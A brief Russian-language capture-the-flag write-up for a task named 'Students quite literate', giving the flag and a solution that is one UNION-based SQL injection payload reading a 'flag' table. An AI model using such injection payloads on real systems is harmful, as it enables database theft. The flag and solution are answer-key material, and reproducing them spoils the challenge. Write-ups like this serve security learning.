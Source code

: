 ## Students quite literate
В этом описании для вас не будет полезной информации, просто решите этот таск.  
<small>Описание вообще кто-то читает?</small> 
[Ссылка]

## Флаг
TeacherCTF{n0_eDucation_syst3m_1s_flawle55}

## Решение
Классическая sql инъекция. Получить флаг можно сделав запрос
```eweweewwe' UNION SELECT flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag FROM flag --``` 